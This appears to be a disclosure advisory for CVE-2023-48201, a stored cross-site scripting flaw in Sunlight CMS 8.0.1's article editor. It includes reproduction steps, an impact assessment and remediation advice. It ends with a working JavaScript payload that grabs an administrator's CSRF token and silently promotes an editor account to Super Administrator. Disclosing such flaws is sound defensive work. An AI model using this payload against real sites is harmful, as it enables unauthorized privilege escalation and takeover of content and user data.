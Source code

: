 # Title
CVE-2023-48201: Stored Cross-Site Scripting (XSS) in Create/Edit Article function in Sunlight CMS 8.0.1 (https://github.com/sunlight-cms/sunlight-cms)

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 8.0 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H

# Description
A user that is in the 'Editors' group or any group that can create and edit Articles, is able to inject malicious Javascript code to the 'Content' text editor. After the Article is approved and an Administrator or Super Administrator views the Article, the malicious code is executed.

# Execution steps
1. Create the new user 'editor1' and add it to the group 'Editors'.
2. Create an article as the user 'editor1'.
3. Approve the Article as a Super Administrator.
4. Inject the malicious code in the article as user 'editor1'.
5. View the Article as Super Administrator.
6. Verify that the user 'editor1' is added to the 'Super Administrators' group.

# Impact
Stored Cross-Site Scripting vulnerability in Sunlight CMS 8.0.1 allows an authenticated low-privileged user to escalate his privileges. A malicious user that is in the 'Moderators' group or any group that can create/edit Articles can escalate his privileges to any higher level group, including Administrators and Super Administrators without being authorized. The malicious user can then create, edit and delete any content in the CMS, create/edit/delete users with any privilege and read the database using the backup functionality.

# Remediation
Sanitize Article content before inserting it in the database.

# Proof of Concept code
Add the article text in HTML and then add the following code:

```js
<script>
/* Get a CSRF token from the change account form and use it to escalate a user to Super Admin */
var csrf_token;
var xhrGET_users_edit = new XMLHttpRequest();
xhrGET_users_edit.responseType = "document";
xhrGET_users_edit.onreadystatechange = function() {
	if (this.readyState == 4 && this.status == 200) {
		// Typical action to be performed when the document is ready:
		var doc = this.responseXML ;
		csrf_token = doc.getElementsByName("_security_token")[0].value;
		//console.log(csrf_token);
        
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/sunlight\/admin\/index.php?p=users-edit&id=editor1", true);
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
        xhr.withCredentials = true;
        var body = "username=editor1&publicname=editor1&email=editor1%40test.tk&password=&group_id=1&wysiwyg=1&public=1&note=&_security_token="+csrf_token;
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
            aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
	}
};
xhrGET_users_edit.open("GET", "/admin/index.php?p=users-edit&id=editor1", true);
xhrGET_users_edit.send();
</script>
```
